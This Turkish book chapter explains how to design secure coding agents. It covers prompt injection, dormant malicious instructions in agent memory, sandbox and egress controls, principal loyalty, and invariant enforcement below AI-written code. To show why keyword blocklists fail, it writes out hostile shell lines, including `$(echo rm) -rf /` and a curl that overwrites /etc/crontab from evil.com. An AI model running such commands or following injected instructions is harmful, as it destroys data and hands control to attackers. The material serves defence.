Bu saldırı döngüsünü kapatır: güvenilmeyen içerikte gizlenmiş kötü niyetli talimatlar Agent'a girer, özel veriyi okumasını sağlar, ardından dış kanallar aracılığıyla sızdırır. Üç unsurun da mevcut olmasının, ek herhangi bir koşul olmadan tek başına yeterince tehlikeli olduğuna dikkat edin. Bunun üzerine, yazar dördüncü bir boyut ekliyor—**Kalıcı Bellek**. Bu paralel dördüncü bir gerekli koşul değil, saldırılar için bir güçlendiricidir: bir saldırgan, Agent'ın uzun vadeli belleğine zararsız görünen önyargılar veya kötü niyetli talimatlar yazabilir, bunlar oturumlar boyunca uykuda kalır ve uygun bir anda tetiklenir — tek seferlik bir saldırıyı, pusuya yatan ve zamanla birleşen bir tehdide dönüştürür.

Bu dört nokta dört tür sınır olarak özetlenebilir: veri sınırı, girdi güven sınırı, çıktı etki sınırı ve oturumlar arası sınır. OpenClaw gibi tam izinli yerel bir Agent bunların dördüne de sahiptir, bu da güvenlik korumasını bu tür Agent'ların karşılaşması gereken temel bir zorluk haline getirir.

Bu aynı zamanda kapalı kaynak ticari Agent'ların (Claude Cowork gibi — Anthropic'in bilgi işi için genel amaçlı Agent'ı, Claude Code'un agentic mimarisini yeniden kullanır, yerel dosyaları okuyup yazabilir ve birden fazla ofis uygulaması genelinde çok adımlı görevleri tamamlayabilir) neden muhafazakâr izin stratejileri seçtiğini açıklar—teknoloji yetersiz olduğu için değil, güvenlik riskleri çok yüksek olduğu için. Prompt injection'a karşı, yalnızca girdi filtrelemesi neredeyse hiç yardımcı olmaz. Hedef her saldırıyı tanımak değil, enjekte edilmiş bir Agent'ın tehlikeli bir eylemi asla tamamlama şansı bulamamasını sağlamaktır. Savunma sistemi önceki iki bölümde katman katman kurulmuştur: **Context Katmanı Savunması** — dış içerik kaynaklarını işaretlemek, yapılandırılmış rol izolasyonu, girdi temizleme — bkz. Bölüm 2'deki prompt injection bölümü; **Yürütme Katmanı Savunması** — Sidecar bağımsız incelemesi, Human in the loop, en az ayrıcalık ve ayrıcalık ayrımı — bkz. Bölüm 4. Aynı context içindeki bir Agent'ın enjekte edilip edilmediğini belirlemesi zordur, bu yüzden kritik işlemler o context'in dışındaki mekanizmalar tarafından incelenmelidir. Bu ilke her iki bölüm boyunca uzanır. Bu bölüm yalnızca Kodlama Agent'larına özgü üç belirli artış ekler:

- **Komut Semantik Ayrıştırması** — Shell komutlarının kombinasyonel patlaması anahtar kelime kara listelerini işe yaramaz kılar; bir komutun gerçek etkisi semantik düzeyde anlaşılmalıdır (bu bölümde daha sonra genişletilir);
- **Sandbox İzolasyonu ve Ağ Çıkışı Kontrolü** — Kod yürütme, Kodlama Agent'larına özgü bir saldırı yüzeyidir; izolasyon düzeyleri ve çıkış stratejileri için mühendislik seçimleri bu bölümde daha sonra ele alınır;
- **Kalıcı Bellek için Oturumlar Arası Savunma** — Bu, bu bölümde Ölümcül Üçlü'nün ötesinde özellikle vurgulanan genişletilmiş bir öğedir: uzun vadeli belleğe yazılan içerik, dış içerikle aynı güven incelemesinden geçmelidir, kötü niyetli talimatların `MEMORY.md`de uykuda kalıp uzun vadede yürürlüğe girmesini önler.

Bu üç artış sırasıyla doğrulama, yürütme ve veri katmanlarına düşer, önceki iki bölümün savunma sistemini tamamlar. Bu stratejiler riski tamamen ortadan kaldıramaz, ama Agent'ın saldırı yüzeyini azaltabilir.

**Güvenlik Ağı Olarak İzolasyon: Kod Yürütme Sandbox'ı için Mühendislik Seçimleri.** Bir sandbox bir anahtar değildir; bir dizi mühendislik kararıdır. Bölüm 4 zaten "neden izole edilir" sorusunu, izolasyon mekanizmalarının hiyerarşik ilkelerini (üç katmanlı spektrum: işlem düzeyi izolasyon, konteynerler, microVM) ve "kişisel yerel makineler için işlem düzeyi, tek kiracılı bulut için konteynerler, çok kiracılı veya güvenilmeyen kod için microVM/gVisor" seçim kuralını yanıtladı; bu spektrumu burada tekrarlamayacağız, yalnızca bir Kodlama Agent'ı uygularken kaçınılmaz olan ve Bölüm 4'te ele alınmayan dört artışı ekleyeceğiz: ağ çıkışının nasıl yönetileceği, dosya sisteminin ne kadarının bağlanacağı, kaynakların nasıl sınırlandırılacağı ve kalıcı oturumların izolasyonla nasıl uzlaştırılacağı.

**Ağ Çıkışı Kontrolü.** Bu, en kolay gözden kaçırılan ve en kritik öğedir: varsayılan olarak ağ yok, sınırlı bir hedef kümesine (paket kaynakları, dokümantasyon siteleri, görevin açıkça gerektirdiği API'ler) beyaz liste proxy'si aracılığıyla ihtiyaç halinde erişim verilir. Ölümcül Üçlü'nün 3. maddesine—"Dışarıyla İletişim Kurabilme Yeteneği"—geri bakıldığında, ağ çıkışı kontrolü onun yürütme katmanı savunmasıdır: bir prompt injection başarılı olsa ve kötü niyetli kod sandbox içinde hassas veriyi okusa bile, bir çıkış olmadan, iletilemez. Her enjeksiyonu tanımlamaya çalışmakla karşılaştırıldığında, veri sızdırma kanalını kesmek çok daha kesin bir savunma hattıdır.

**Dosya Sistemi İzolasyon Kapsamı.** Kaynak kodu dizinini salt okunur olarak bağlayın (Agent kodu düzenleme araçları aracılığıyla değiştirir ve üretilen yamalar diske yazılmadan önce incelenir, veya bir kopya yazılabilir bir çalışma alanına bağlanır); ayrı bir yazılabilir çalışma alanı dizini üretilen artifact'ları ve ara dosyaları tutar; kimlik bilgisi dosyaları (`~/.ssh`, anahtarlar, token'lar) sandbox'a hiç bağlanmaz—görünmez veri sızdırılamaz, Ölümcül Üçlü'nün 1. maddesine karşılık gelir.

**Kaynak Sınırları ve Zaman Aşımları.** CPU, bellek ve disk için kotalar, artı sonsuz döngülere, fork bomblarına (sistem çökene kadar hızla kendini çoğaltan bir işlem) ve sınırsız disk yazmalarına karşı savunmak için bir duvar saati zaman aşımı ayarlayın. Pratik bir ayrıntı: zaman aşımları ve sınır ihlalleri, işlemi sessizce öldürmek yerine Agent'a yapılandırılmış bir hata döndürmelidir ("120 saniye sonra yürütme sonlandırıldı, son çıktı şuydu..."), bu da Agent'a bir sonraki turda stratejisini gözden geçirme şansı verir.

**Kalıcı Oturumları ve İzolasyonu Uzlaştırmak.** Bu bölümün ilerisindeki "Komut Yürütme Ortamında Durum Kalıcılığı" bölümü uzun ömürlü terminal oturumlarını korumayı savunurken, izolasyon ilkesi tek kullanımlık ortamları savunur—ikisi arasında bir gerilim vardır. Uzlaştırma yaklaşımı şudur: **oturumu sandbox içinde canlı tutun**, terminal oturumunun yaşam döngüsü kesinlikle sandbox'ın yaşam döngüsünü aşmaz ve oturum durumu asla host makineye kaçmaz; uzun zaman aralıkları boyunca kurtarma gerektiren senaryolar için (daha önce bahsedilen Oturumsuz mimari gibi), sandbox'ın yaşam süresini sonsuza kadar uzatmak yerine, durumu geri yüklemek için sandbox anlık görüntülerine veya "çalışma alanı dosyası kalıcılığı + betikler aracılığıyla ortam yeniden inşası"na güvenin. Başka bir deyişle, kalıcı olan şey opak çalışan işlemler değil, **denetlenebilir durum açıklamalarıdır** (dosyalar, betikler, manifestolar).

**Güvenlik: Anahtar Kelime Kara Listeleri Yerine Semantik Ayrıştırma**. Bölüm 1, doğrulama katmanının "eşleştirme tabanlı değil anlama tabanlı" bir güvenlik mekanizması benimsemesi gerektiğinden bahsetti. Shell komutu güvenlik doğrulaması, bu ilkenin en zorlu uygulamasıdır. Basit anahtar kelime kara listeleri Shell'in kombinasyonel patlamasıyla başa çıkamaz—komutlar borular, alt kabuklar, değişken genişletme vb. yoluyla herhangi bir statik kuralı atlatabilir (örn. `rm` engellenmişse, bir saldırgan atlatmak için `$(echo rm) -rf /` kullanabilir). Üretim düzeyindeki Harness'ler semantik ayrıştırma kullanır: her komutun argüman türlerini ve tüketim kurallarını anlamak (hangi bayrakların bir sonraki argümanı tükettiği), "zararsız görünen bir bayrağın aslında bir sonraki argümanı tükettiği, tehlikeli bir yükü gizlediği" gibi saldırı kalıplarını tanımak. Örneğin, `find / -name '*.log' -exec rm {} \;`, meşru `find` komut argümanları aracılığıyla bir `rm` silme işlemi gömer; başka bir örnek, `curl -o /etc/crontab http://evil.com/payload`, bir dosya indiriyor gibi görünür ama aslında sistem zamanlanmış görevlerinin üzerine yazar. Semantik ayrıştırma bu iç içe geçmiş tehlikeli işlemleri tanımlayabilirken, basit komut kara listeleri bunları yakalayamaz. Bu, eşleştirme tabanlı değil anlama tabanlı güvenlik mekanizması, "kısıt" işlevinin yüksek düzeyli bir uygulamasıdır.

**Spekülatif Yürütme: Güvenlik Kontrollerini "Görünmez" Kılmak**. Bu, tam olarak Bölüm 4'teki Sidecar kapılama mekanizmasının kullanıcı deneyimi düzeyindeki etkisidir—Bölüm 4, kritik işlemlerin neden ana context'ten bağımsız bir Sidecar tarafından incelenmesi gerektiğini açıkladı; bu bölüm bu incelemeyi kullanıcı için bir bekleme olarak algılanamaz hale getirmeye odaklanır. Yaklaşım, "gösterme" ve "serbest bırakma"yı ayırıp paralel olarak çalıştırmaktır: Agent bir tool call yürütmek üzereyken, sistem eş zamanlı olarak arayüzde bir ilerleme ipucu gösterir (örn. "`src/main.py` dosyası okunuyor...") arka planda güvenlik kontrolünü çalıştırırken. Burada yaygın kullanılan bir benzetme hakkında bir netleştirme gerekiyor: bu, CPU spekülatif yürütmesinden farklıdır—CPU yanlış tahmin ederse, hesaplanan sonuçları atmalı ve durumu geri almalıdır; burada, ön eylem yalnızca **yan etkisiz bir UI ipucudur**, hiçbir gerçek durumu değiştirmez. Kontrol başarısız olursa, geri almaya gerek yoktur; ipucu basitçe "onay bekleniyor" ile değiştirilir. Çoğu durumda, güvenlik kontrolü kullanıcı fark etmeden tamamlanır, bu yüzden kullanıcı ek bir gecikme hissetmez; yalnızca hızlı bir belirleme imkânsız olduğunda sistem gerçekten duraklar ve onay bekler. Bu, Harness tasarımının doruk noktasıdır: kullanıcı deneyiminden ödün vermeden güvenlik.

**Agent Kime Hizmet Eder: Çok Taraflı Vekalet Altında Sadakat.**

Yukarıdaki güvenlik mekanizmaları "komutların kötü niyetli olarak yürütülmesini" önler; daha ince bir güvenlik sorunu vardır—**vekil sadakati**: **Agent gerçekte kimin tarafında**. Modeller naif bir varsayılan ilkeyle eğitilir—"benimle kim konuşuyorsa, ona elimden gelen en iyi şekilde yardım edeceğim"—ama gerçek dünya Agent'ları genellikle **çok taraflı vekalet** altında çalışır: çıkarları çatışan üçüncü taraflarla uğraşırken bir vekil adına hareket etmek. Sizin adınıza bir fiyat müzakere eden bir Agent, "yardıma ihtiyacı olan bir kullanıcıyla" değil bir **müzakere rakibiyle** karşı karşıyadır. Burada, "kim konuşursa ona yardım et" tehlikeli bir varsayılandır—rakibin Agent'ınızı çevirmeye başlamak için yalnızca ağzını açması yeterlidir.

Öncü modelleri bu duruma sokmak net bir **sadakat spektrumunu** ortaya koyar, her iki uçta da başarısızlık vardır[^ch5-1]: bir uçta, **çok dürüst**—vekilin özel bilgisini (örn. "bizim alt sınırımız 12.000") doğrudan rakibe vermek ve birkaç tur baskıdan sonra pes etmek; diğer uçta, **çok şüpheci**—vekilin meşru isteklerini bile reddetmek ve böylece görevde başarısız olmak. Zor kısım şu ki, iki başarısızlık bir tahterevallide oturur: sızıntıları tıkarsanız aşırı reddetmeye kayarsınız—ikisine birden sahip olmak zordur.

Bu özellikle Kodlama Agent'larıyla ilgilidir: bir depodan okunan güvenilmeyen içerik, bir araç tarafından döndürülen çıktı, üçüncü taraf bir MCP sunucusu tarafından gönderilen talimatlar—hepsi Agent'ı çevirmeye çalışan "rakiplerdir"—**prompt injection özünde çevirme girişimidir** (Bölüm 2 ve 4). Bu yüzden Harness, Agent'ın kime sadık olduğunu açıkça belirlemelidir: vekilden gelen talimatlar en yüksek önceliği taşır, dış taraflardan gelen her şey ise varsayılan olarak "başvurulabilecek ama talimat gücü taşımayan veri"ye indirgenir. System prompt'ta, etkili bir **sadakat davranış kodu** şudur: vekilin özel bilgisini hatta "varlığını" bile koruyun; reddederken, ret listesini okumayın (bu kendisi bir sızıntıdır); özel alt sınırlar kamuya açık pozisyonlar değildir; yalnızca vekilin net ve belirli talimatlarını yürütün; tekrarlanan baskıya dayanın. Özünde, bu Harness'i kullanarak modele varsayılan olarak sahip olmadığı bir duruş vermektir: **vekile mutlak sadakat, dış etkileşimde bulunan taraflara karşı ihtiyat**.

[^ch5-1]: Bu sadakat spektrumunun ve davranış kodunun eksiksiz değerlendirmesi şurada bulunabilir: Li, Bojie and Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026.

**Yapay Zeka Tarafından Yazılan Kodun Kendisi Güvenilmez Olduğunda: Güven Sınırını Aşağıya Taşımak.**

Yukarıdaki sadakat kodu, Agent'ın kurallara uyma **olasılığını** artırır, ama yüksek riskli veri işlemleri için, "daha olası" yeterli değildir—kısıtların "Agent'ın iyi davranmasını ummaktan" veri katmanında zorunlu kılmaya inmesi gerekir. Daha radikal duruş[^ch5-2] şudur: **uygulama katmanını basitçe güvenilmez olarak ele alın ve veri değişmezlerinin zorunlu kılınmasını onun altına itin**. Son otuz yıldır, yazılımın bütünlük sınırı **uygulama katmanında** yaşadı—handler kodu kimin işlem yapabileceğine ve hangi değerlerin geçerli olduğuna karar verdi ve veritabanı o koda koşulsuz güvendi; ama LLM tarafından üretilen handler'lar genellikle insan yazarların alışkanlık olarak taşıyacağı izin ve bütünlük kontrollerini atlar ve otonom Agent'lar doğrudan üretim verisi üzerinde çalışır, bu önermeyi bozar. Yeni yaklaşım (İzin Gömülü Veri Nesneleri olarak adlandırılabilir), her veri varlığının **insan tarafından incelenmiş bir şema** içinde bildirimsel izin kurallarını, doğrulayıcıları ve sonuç ifadelerini taşımasını sağlar, bu da **her yazmada** bir çalışma zamanı boru hattı tarafından zorunlu kılınır. Kilit ilkel, her işleme eklenen **erişim bağlamıdır**: yeniden üretilmiş bir handler, hizmet ettiği kullanıcının izinleriyle çalışırken, otonom bir Agent kendi kısıtlı kimliği (kapsamlı vekil) altında çalışır—Agent'ın sadık kalmasını ummak yerine, mimari olarak onu izinle sınırlı bir özneye indirger, böylece çevrilse bile sınırı geçemez.

Aynı prompt kümesinde birkaç ana akım çözümle karşılaştırıldığında, bu mekanizma **beyan edilen değişmezleri ihlal eden sıfır yazma** elde ederken, çıplak SQL, LLM tarafından yazılan kontroller, anayasal prompt'lar ve eylem sınırı ara katmanları, birkaçtan düzinelerce ihlale kadar geçmesine izin verir. "Doğru olma olasılığı daha yüksek" değil "yanlış olması imkânsız", yazma başına yaklaşık 2 ek milisaniye maliyetiyle. Elbette, garanti koşulludur: şema gerçekten tüm istenen değişmezleri yakalamalıdır ve dağıtım, güvenilmeyen katmanın depolamayı atlayıp veritabanına doğrudan bağlanabileceği her yolu engellemelidir. Kodlama Agent'ları için, bu önemli bir mimari ilke verir: **hem kod yazarının hem de kod çalıştırıcısının güvenilmez olabileceği durumlarda, gerçekten güvenilir kısıtlar üretilen kodda değil, onun altındaki insan tarafından incelenmiş temelde bulunmalıdır**—bu, Bölüm 1'in "rehberlik yerine kısıt" ilkesinin veri katmanında uygulanan nihai biçimidir.

[^ch5-2]: "Güven sınırını uygulama katmanının altına taşımanın" bu tasarımı ve değerlendirmesi (farklı çözümler arasındaki ihlal sayılarının eksiksiz bir karşılaştırması dahil) şurada bulunabilir: Li, Bojie. *The Application Layer Is No Longer Trusted: Enforcing Data Invariants Below AI-Written Code and AI Agents.* 2026 (yayınlanacak).

### Bir Kodlama Agent'ının Genel İş Akışı





Aşağıda **önerilen bir mühendislik iş akışı** açıklanmaktadır. Yazılım mühendisliği en iyi uygulamalarını Agent'a yansıtır, ideal bir biçim ana hatlarıyla belirtir. Gerçek dünya Kodlama Agent'ları (Claude Code, OpenClaw gibi) daha çok reaktif, yinelemeli bir döngüde çalışır ve **bu iş akışını ihtiyaç halinde kırpar**—basit görevler için tasarım dokümanını atlar ve her adımda kullanıcı onayında bloke olmazlar; yalnızca bir görev karmaşık ve geniş kapsamlı olduğunda her aşamayı eksiksiz olarak çalıştırırlar.

**Proje Dokümantasyonu.**

Bir Kodlama Agent'ının işi, projenin sistematik bir anlayışıyla başlar. Bir Agent bir kod deposuyla ilk karşılaştığında, ilk işi kodu değiştirmeye başlamak değil, tüm proje için bilişsel bir çerçeve inşa etmektir—tıpkı yeni bir mühendisin ilk gün kod göndermemesi, arazinin yapısını öğrenerek başlaması gibi. Agent, projenin dokümantasyona sahip olup olmadığını kontrol ederek başlar—bir README, mimari tasarım dokümanları, geliştirici kılavuzları.

Kilit dokümanlar eksikse, Agent kör biçimde çalışmaya başlamamalı, dokümantasyon sorumluluğunu proaktif olarak üstlenmelidir—kod tabanını sistematik olarak okuyarak, ana modülleri, temel soyutlamaları ve bileşenler arası bağımlılıkları belirleyerek ve bir mimari genel bakış, dizin yapısı ve test çalıştırma kılavuzu içeren başlangıç dokümanları üreterek. Bu doküman, Agent'ın sonraki işi için bir çizim ve diğer geliştiriciler için bir giriş noktası görevi görür. Bu, kilit bir ilkeyi somutlaştırır: bilginin dışsallaştırılması verimli iş birliğinin bir ön koşuludur.

Proje dokümantasyonunun artık Agent'lara özgü bir biçimi var: **Proje Talimat Dosyaları**. CLAUDE.md, AGENTS.md, .cursorrules gibi dosyalar fiili sektör standartları haline geldi—her oturumun başında otomatik olarak context'e enjekte edilirler, proje düzeyinde system prompt'lar olarak hareket ederler. İnsan okuyucular için tasarlanmış README'lerden farklı olarak, talimat dosyaları Agent'lar için davranış kurallarını taşır: inşa ve test komutları ("`npm test` yerine `pnpm test` kullan"), kod stili ("any tipini devre dışı bırak") ve net kısıtlı bölgeler ("`migrations/` dizinini değiştirme"). Bu, OpenClaw'ın `SOUL.md`si (Agent'ın kimliğini ve davranış kurallarını tanımlar) ve `MEMORY.md`si (oturumlar arası deneyimi biriktirir) ile aynı fikirdir, farklı düzeylerde uygulanır: SOUL.md "Agent'ın kim olduğunu" tanımlarken, proje talimat dosyaları "bu projede nasıl çalışılacağını" tanımlar. Bölüm 2'deki context engineering perspektifinden, talimat dosyaları aynı zamanda en ekonomik kararlı ön ektir—içerikleri görevle değişmez, bu da onları doğal olarak KV Cache dostu kılar; aynı zamanda "bilginin kod tabanının kendisinde var olması gerektiği" ilkesinin en doğrudan uygulamasıdır.

Bilgi dışsallaştırma ilkesinin ilginç bir sonucu daha var: **Uzaktan çalışmaya dost olan ekipler genellikle Yapay Zeka Ajanlarına da dosttur.** Uzaktan ekipler asenkron iletişime ve dokümantasyona güvenmek zorundadır—kararlar dokümanlarda kaydedilir, bağlam issue ve PR açıklamalarında yaşar, kabile bilgisi bir sonraki masada veya konferans odası tahtasında ağızdan ağıza geçmek yerine geliştirici kılavuzlarında birikir. Bu tam olarak Agent'ların tüketebileceği bilgi biçimidir: bir Agent sözlü bir anlaşmayı okuyamaz, ama bir tasarım dokümanını okuyabilir. Tersine, "yanımdaki kişiye sorayım" üzerine çalışan bir ekip, bir Agent'a yeni bir uzaktan işe alınan kişiyle aynı dik işe alışma maliyetini dayatır. Bir ekibin "yapay zekaya hazır olma" durumu için basit bir vekil: uzaktan yeni bir gelen, yalnızca kod deposu ve dokümantasyonuyla bağımsız olarak çalışabilir mi?

**Görev Anlama ve Gereksinim Netleştirme.**

Sınırları net ve etkisi sınırlı basit gereksinimler için—bilinen bir hatayı düzeltmek veya bir fonksiyonun parametrelerini ayarlamak gibi—Agent doğrudan uygulama aşamasına geçebilir. Ancak, yazılım geliştirmedeki çoğu görev bu kadar basit değildir.

Karmaşık gereksinimler için, Agent daha dikkatli ve metodik olmalıdır. Karmaşıklık birden fazla boyuttan kaynaklanabilir: gereksinimin kendisinin belirsizliği (kullanıcı ne istediğini bilir ama tam olarak ifade edemez), uygulama yollarının çeşitliliği (kendi ödünleşimlerine sahip birden fazla teknik çözüm) veya etkinin genişliği (birden fazla modülde değişiklik gerektirir, mevcut işlevselliği bozma potansiyeli taşır). Agent, keşif araştırması yoluyla sınırları netleştirmeli ve gerektiğinde kullanıcıyla proaktif olarak diyaloğa girmelidir. Örneğin, bir kullanıcı "sistem performansını optimize et" diye sorduğunda, Agent önce şunu çözmelidir: optimizasyonun belirli hedefi nedir (yanıt süresini azaltmak, bellek kullanımını düşürmek veya verimi artırmak), hangi ödünleşimler kabul edilebilir (kod karmaşıklığının artmasına izin verilir mi) ve mevcut darboğaz nerede yatıyor. Gereksinimler hâlâ belirsizken kodlamaya başlamak genellikle önemli yeniden çalışmaya yol açar.

**Bir Tasarım Dokümanı Yazmak.**

Bir tasarım dokümanı, soyut gereksinimleri somut bir uygulama planına çeviren bir köprüdür. Temel soruları yanıtlamalıdır: hangi modüllerin neden değiştirileceği, hangi çözümün benimseneceği ve göreceli avantajları, hangi yeni bağımlılıkların tanıtılması gerektiği ve sistem üzerindeki beklenen etki. Bir tasarım dokümanı yazmak, kendisi derin bir düşünmedir—Agent'ı kodlamaya yoğun biçimde yatırım yapmadan önce bir çözümün fizibilitesini kavramsal olarak doğrulamaya zorlar. Daha da önemlisi, tasarım dokümanı insanlar için verimli bir müdahale noktası sağlar—öz bir tasarım dokümanını incelemek, yüzlerce satır kodu incelemekten çok daha kolaydır. Tasarım dokümanını tamamladıktan sonra, Agent bunu kullanıcı incelemesi için sunmalı ve devam etmeden önce onay beklemelidir.

**Kod Uygulaması ve Testi.**

Tasarım onayını aldıktan sonra, Agent uygulama için projenin kod kurallarını izler, mevcut soyutlamaları ve araçları yeniden kullanır ve kod tabanının sağlığını korumak için gerektiğinde ölçülü yeniden düzenleme yapar.

Uygulamadan sonra, Agent hemen test odaklı bir kalite güvence aşamasına girer—yeni veya değiştirilmiş işlevsellik için test durumları yazar, normal yolları, sınır koşullarını ve hata senaryolarını kapsar. Testleri yazdıktan sonra, Agent test kümesini yürütür. Testler başarısız olursa, Agent başarısızlığı basitçe kullanıcıya bildirmemeli, nedeni analiz etmeli, sorunu bulmalı ve tüm testler geçene kadar kodu değiştirmelidir. Bu "test-düzelt" döngüsü birkaç yineleme gerektirebilir ve bir Kodlama Agent'ını bir kod üretecinden güvenilir bir mühendislik asistanına yükselten şey tam olarak bu kendi kendini düzeltme yeteneğidir. Tersine, bir Kodlama Agent'ının aylaklık etmesinin en yaygın yolu, bu aşamayı tamamen atlamaktır—kodu yazıp testleri hiç çalıştırmadan "görev tamamlandı" diye bildirmek. Tamamlanma kriteri olarak "kod yazıldı" yerine "testler geçiyor"u tanımlamak, tam olarak Loop Engineering'in doğrulamanın ne zaman durmanın güvenli olduğuna karar vermesine izin verme ilkesinin kodlamaya uygulanmasıdır (Bölüm 10 bu "erken sonlandırma" sınıfını sistematik olarak tartışır).

Tüm testler geçse bile, Agent'ın işi bitmiş değildir. Bir sonraki aşama kod incelemesidir: Agent kendi ürettiği kodu eleştirel biçimde inceler. Okunabilir mi ve yeterince yorumlanmış mı? Gizli performans sorunları veya güvenlik açıkları var mı? Projenin kod stilini ve en iyi uygulamalarını takip ediyor mu? Bu öz inceleme, kodu okuyarak, lint araçlarını çalıştırarak veya özel bir kod inceleme alt Agent'ı çağırarak yapılabilir. İnceleme sorunlar bulursa, Agent hatalı kodu kullanıcıya teslim etmek yerine değiştirme aşamasına geri dönmeli ve bunları düzeltmelidir.

**Dokümantasyon Senkronizasyonu ve Teslimat.**

Kod değişiklikleri mimari düzeyinde değişiklikler içeriyorsa—yeni bir modül tanıtmak, modüller arası bağımlılıkları değiştirmek veya temel soyutlamaların semantiğini değiştirmek gibi—Agent'ın mimari dokümantasyonu buna göre güncellemesi gerekir. Güncelliğini yitirmiş dokümantasyon, gelecekteki geliştiricileri yanılttığı için dokümantasyon olmamasından daha kötüdür. Her önemli değişiklikten sonra dokümantasyonu otomatik olarak güncelleyerek, Agent projenin bilgi tabanının bütünlüğünü ve güncelliğini korumaya yardımcı olur.

Bu iş akışı, yazılım mühendisliğinin temel ilkelerini somutlaştırır: planlama eylemden önce gelir, doğrulama boyunca çalışır ve dokümantasyon kodla birlikte evrilir.

### Kodlama Agent'ları için Pratikte Harness Engineering

Bölüm 1, Harness Engineering kavramını ve **Agent = Model + Harness** formülünü tanıttı. Buradaki Harness, temel formüldeki context ve tools'u, ayrıca kısıtlama, doğrulama ve düzeltme mekanizmalarını içerir—bu beş unsur birlikte Bölüm 1'de tanımlanan Harness'i oluşturur. Kodlama Agent'ları belki de Harness Engineering'in en çok karşılığını verdiği alandır—kod yazma tüm Agent görevleri arasında **en doğrulanabilir** olanıdır ve kısıtlaması, doğrulaması ve düzeltmesi hepsi mevcut altyapıya yaslanabilir. Bu bölüm, Kodlama Agent'ı senaryosundaki somut pratiğe odaklanır.

Bir sistemin kararlı çalışıp çalışmadığı genellikle modelin gücünden çok Agent'ın etrafında inşa edilen altyapının sağlamlığına bağlıdır. Bölüm 1, Harness'i iki katmana ayırır—**Context ve Tools** (Agent'ın hareket etmesini sağlar) ve **Kısıtlama, Doğrulama ve Düzeltme** (Agent'ın yanlış yapmasını önler). Kodlama Agent'ı senaryosunda, bunlar belirli mühendislik bileşenlerine dönüşür:

- **Kabul Temeli**: "Bitmiş" neyi oluşturur—test kümeleri, CI boru hattı (Sürekli Entegrasyon boru hattı, kod gönderiminden sonra otomatik olarak çalıştırılan bir dizi kontrol), kod inceleme standartları
- **Yürütme Sınırı**: Agent'ın neye dokunabileceği ve dokunamayacağı—modül sınırları, bağımlılık kuralları, izin kontrolleri
- **Geri Bildirim Sinyalleri**: Otomatik doğruluk yargıları—Linter (biçimlendirme hatalarını ve potansiyel sorunları otomatik olarak bulabilen kod stili kontrol aracı) çıktısı, test sonuçları, tip kontrolü hataları
- **Geri Alma Mekanizması**: Bir şeyler ters giderse nasıl kurtarılacağı—Git sürüm kontrolü, sandbox izolasyonu, anlık görüntü geri alma

**Kodlama Agent'ları Neden Harness Engineering için Özellikle Uygundur.**

İki boyut—hedefin ne kadar net olduğu ve doğrulamanın ne kadar otomatikleştirildiği—görevleri dört duruma ayırır. Otomatik olarak doğrulanabilir sonuçlara sahip net bir hedef, Agent'ların geliştiği bölgedir; kabulü hâlâ insan gözüne bağlı net bir hedef, verimi insan incelemesinin hızıyla sınırlar; belirsiz bir hedefle otomatik geri bildirim, sistemin yanlış yönde verimli biçimde çalışmasına izin verir; her ikisi de eksikse, Agent'ın pek faydası yoktur. Tablo 5-1 bu dört durumu gösterir. Harness'in hedefi, mümkün olduğunca çok görevi "net hedef + otomatik doğrulama" çeyreğine itmektir.

Tablo 5-1 Görev Netliği ve Doğrulama Otomasyonunun Dört Çeyreği

| | Sonuçlar otomatik olarak doğrulanabilir | Sonuçlar elle doğrulama gerektirir |
|---------|--------------------------------------------|------------------------------------------|
| **Net hedef** | Tatlı nokta: test durumlarıyla hataları düzeltmek | Verim sınırlı: kod yeniden düzenlemesi elle inceleme gerektirir |
| **Belirsiz hedef** | Verimli biçimde yoldan çıkmak: bir linter'la "kod kalitesini" optimize etmek | Başlaması zor: "UI'ı daha iyi görünsün" |

Kod yazma doğal olarak bu çeyreğin merkezinde yer alır—test kümeleri net kabul kriterleri sağlar, linter'lar ve tip kontrolörleri anlık otomatik doğrulama sunar ve Git mükemmel sürüm kontrolü ve geri alma yetenekleri sağlar. Bu, Kodlama Agent'larının neden şu anda tüm Agent türleri arasında en olgun olanı olduğunu açıklar: kod üretim modelleri özellikle güçlü olduğu için değil, on yıllarca süren yazılım mühendisliği altyapısı doğal olarak sağlam bir Harness oluşturduğu için.

**Sektör Pratiği.**

Üç Harness pratiği vaka çalışması yukarıdaki ilkeleri doğrular:

- **Büyük ölçekli kod göçü vakası** (büyük bir teknoloji şirketinin kamuya paylaştığı büyük ölçekli kod göçü pratiğinden): Anahtar modelin gücü değil, Harness'in üç şeyi doğru yapmasıydı—bilgi kod tabanının kendisinde var olmalıdır (Agent'ın göremediği var olmaz), kısıtlar dokümantasyonda yazılı olmak yerine linter'lara ve CI'a kodlanır ve doğrulama ile düzeltme uçtan uca tamamen otomatiktir.
- **LangChain**: Yalnızca Harness'i optimize ederek (system prompt'lar, araç ara katmanı, öz doğrulama döngüleri) benchmark görevi performansını önemli ölçüde iyileştirdi. Özellikle dikkate değer olan, "Harness'i iyileştirmek için başarısızlık trajectory'lerini analiz etmek üzere bir Agent kullanma" metodolojisidir, Harness engineering'i deneyim odaklıdan veri odaklıya kaydırır.
- **Anthropic**: Uzun görevleri iki role böler—büyük görevleri bir görev listesine ayırmaktan sorumlu bir başlatma Agent'ı ve adım adım ilerlemekten sorumlu bir yürütme Agent'ı, ara sonuçları (tamamlanmış kod dosyaları ve güncellenmiş görev listeleri gibi) bir sonraki tur için kullanmaya devam etmek üzere bırakır. Bu iş bölümü, uzun süre çalışan Agent'ların "bir kerede çok fazlasını yapmaya çalışması" veya "erken tamamlandığını iddia etmesi" sorununu çözer.

**Kodlama Agent'ından Genel Harness Tasarım İlkelerine.**

Kodlama Agent'larının Harness pratikleri, tüm Agent sistemleri için aktarılabilir tasarım ilkeleri sağlar:

1. **Rehberlik yerine kısıt**: Kodla zorunlu kılınabilecek kurallar dokümantasyonda önerilmemelidir. Linter kurallarının, tip kısıtlarının ve CI kontrollerinin değeri, system prompt'lardaki "lütfen izleyin..." rehberliğini çok aşar—birincisi "yapılamaz" anlamına gelirken, ikincisi yalnızca "önerilmez"dir.
2. **Doğrulamayı otomatikleştirin**: Elle inceleme ölçeklenemeyen bir darboğazdır. Test kümelerine, kod kalite kontrollerine ve davranış izlemeye yatırım, daha fazla insan çabası eklemekten çok daha yüksek getiri sağlar.
